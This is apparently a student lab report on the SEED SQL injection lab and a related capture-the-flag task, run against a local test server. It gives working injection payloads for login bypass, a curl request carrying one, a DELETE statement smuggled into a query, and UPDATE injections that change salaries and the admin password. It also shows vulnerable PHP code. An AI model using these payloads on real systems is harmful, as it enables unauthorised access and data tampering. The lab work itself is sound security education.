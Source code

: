 # Guião Semana #8 (SQL Injection)

## Lab Environment

1. **Update Hosts File:**
   Add the following entry and save the file:
   ```
   10.9.0.5 www.seed-server.com
   ```
   Close the file.

   ![Hosts File](<image-55.png>)
   *Fig 1. Open the '/etc/hosts' file for editing*

## Task 1: Get Familiar with SQL Statements

To retrieve the data for the user "Alice," the SQL syntax is used to execute the command:

   ![SQL Command](<image-56.png>)
   *Fig 6. Print all the profile information of all employees*

## Task 2: SQL Injection Attack on SELECT Statement

Access the website "www.seed-server.com" and navigate to the `unsafe_home.php` file. The vulnerability lies in the dynamic creation of SQL queries with unsanitized user input.

The original query looks like:
   ```
   WHERE name= '$input_uname' and Password='$hashed_pwd'
   ```

Exploiting the vulnerability, an input of "admin'#" ensures privileged access by commenting out subsequent code:
   ```
   WHERE name='admin'# and Password='$hashed_pwd'
   ```

Successful login with administrator privileges:

   ![Admin Login - Code Injection](<image-51.png>)
   *Fig 7. Log in with the administrator account with injected code*

   ![Admin Login](<image-50.png>)
   *Fig 8. Log in with the administrator account*

## Task 2.2: SQL Injection Attack from command line

Performing the attack via a GET request using `curl`:
   ```sh
   curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20%23&Password=11'
   ```

This retrieves the HTML code containing users' personal data.

   ![Admin Login - Command Line](<image-53.png>)
   *Fig 8. Log in with the administrator account*

## Task 2.3: Append a new SQL statement

Appending new SQL commands using ";" was attempted to have a server-side effect, such as deleting the credentials table:

   ```sh
   '; DELETE FROM credential where id=1; #
   ```

However, the operation failed due to a database error.

   ![Database Error](<image-54.png>)
   *Fig 8. Database Error*

According to sources, the MySQL extension used by the server's PHP prevents the execution of multiple queries, hindering the completion of the attack.

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1 - Modify Your Own Salary

After logging in with a system account (e.g., username = Alice' #), access is granted to a page for editing personal data. The file managing this functionality is `unsafe_edit_backend.php`, featuring a query dynamically formed with unsanitized user input. Our attack focuses on manipulating the "email" field to change the user's salary.

```sql
alice@gmail.com', Salary='99999
```

   ![Change Alice Data](<image-57.png>)
   *Fig 9. Change Alice Data*

   ![Change Alice Data](<image-58.png>)
   *Fig 10. Changed Alice Data*

### Task 3.2: Modify Other People's Salary

To alter another user's salary, a similar technique is employed, creating a different WHERE clause and commenting out the system's to avoid interference.

```sql
', Salary='1' WHERE Name='Boby'#
```

   ![Change Boby Data](<image-59.png>)
   *Fig 11. Change Boby Data*

   ![Boby Salary Change](<image-60.png>)
   *Fig 12. Boby salary changed to 1*

### Task 3.3 - Modify Other People's Password

Changing another user's password involves a similar technique, but this time the value to be modified is previously encrypted with SHA1 encryption. For instance, for the new password `passwordtest`, the hash is `c29da3f6a48cb429c3f146edb5e0dcbbfaaf515d`.

```sql
', password='c29da3f6a48cb429c3f146edb5e0dcbbfaaf515d' WHERE name='Admin'#
```

   ![New Password with SHA1 Encryption](<image-61.png>)
   *Fig 13. New password with SHA1 encryption*

   ![Logged in with New Password](<image-62.png>)
   *Fig 14. Logged in with the new password*

## CTF 8 - SQL Injection

### Analysis of the Code:

```php
if (!empty($_POST)) {
   require_once 'config.php';

   $username = $_POST['username'];
   $password = $_POST['password'];
   
   $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                           
   if ($result = $conn->query($query)) {
                        
      while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
         $_SESSION['username'] = $data['username'];

         echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
         include "/flag.txt";
         echo "</code>";

      }
   } else {            
         // Login failed
         echo "<p>Invalid username or password. <a href=\"index.php\">Try again</a></p>";
   }
}
```

### Identified SQL Injection Vulnerability:

A significant SQL injection vulnerability is present in the code snippet `$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";`. This code constructs a SQL query without proper preparation of the statement. To exploit this vulnerability, an attacker can input something like `' or 1=1 --` as the value of `$username`. This action closes the quotes in `username = '".$username."'`, causing the SQL query to perform an `or` (selecting all records if the user is not empty) and subsequently commenting out the remaining SQL code with `--`, thus bypassing subsequent conditions.

![Exploiting the Vulnerability](<image-63.png>)
   *Fig 11. Exploiting the Vulnerability*

![Captured Flag!](<image-64.png>)
   *Fig 12. Captured Flag*